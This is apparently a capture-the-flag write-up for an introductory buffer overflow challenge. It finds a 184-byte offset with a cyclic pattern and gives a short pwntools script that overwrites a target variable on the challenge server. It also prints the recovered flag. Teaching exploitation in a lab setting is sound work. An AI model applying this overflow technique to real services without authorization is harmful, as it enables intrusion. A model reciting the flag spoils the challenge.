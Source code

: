 # Buffer Overflow Introduction Write-up

## Challenge Information

**Title:** Intro to Pwning   
**Description:** Welcome to the challenge, I hope you enjoy playing this CTF and learn a lot about Cyber Security in the end. The challenge is simple, overwrite the variable target and once the value is changed as intended, you will get the flag. You can try playing around with the given binary first, then once you have the solver you can try doing it on the given netcat server. GHLF!!  
**Connection:** `nc ctf.m4.lu 65319`

## Challenge Analysis

This challenge is a basic binary exploitation challenge focusing on **buffer overflow** fundamentals.

## Reconnaissance and Offset Discovery

### Finding the Buffer Overflow Offset

![](<img/1.png>)

For reconnaissance, I used `pwn cyclic -200` to generate a cyclic pattern and input it into the program. Instead of just receiving a segmentation fault, the program directly displayed the buffer overflow offset.

![](<img/2.png>)

**Discovered offset:** 184 bytes

### Target Value Identification

![](<img/3.png>)

The target hex value that needs to be written is: `0x4D734941` (from the C source code)

## Exploitation

### Buffer Overflow Concept

The vulnerability allows us to:
1. Fill the buffer with 184 bytes of padding
2. Overwrite the target variable with the specific hex value `0x4D734941`
3. Trigger the flag display when the target variable contains the expected value

### Solution Script

```python
from pwn import *

r = remote("ctf.m4.lu", 65319)
# r = process('./chall')  # for local testing

r.recvuntil(b"Enter your input:")
r.sendline(b"A" * 184 + p64(0x4D734941))
print(r.recvall(timeout=2).decode(errors="ignore"))
```

### Payload Breakdown

- **`"A" * 184`:** Padding to reach the target variable
- **`p64(0x4D734941)`:** The specific value needed to overwrite the target variable
- The `p64()` function packs the value as a 64-bit little-endian integer

## Flag

```
HiB25{1ntr0DUct1On_T0_th3_w0rld_0f_PWN}
```

## Summary

This introductory challenge demonstrated:

1. **Buffer Overflow Basics** - Understanding how input can overflow into adjacent memory
2. **Offset Calculation** - Finding the exact number of bytes needed to reach the target
3. **Memory Overwriting** - Precisely controlling what value gets written to the target variable
4. **Pwntools Usage** - Using the pwntools library for exploit development
5. **Remote Exploitation** - Applying the same technique to a remote service

This challenge serves as an excellent introduction to binary exploitation, teaching the fundamental concept of buffer overflows in a controlled environment. The descriptive flag name perfectly captures the educational nature of this challenge - it's truly an introduction to the world of pwning (binary exploitation).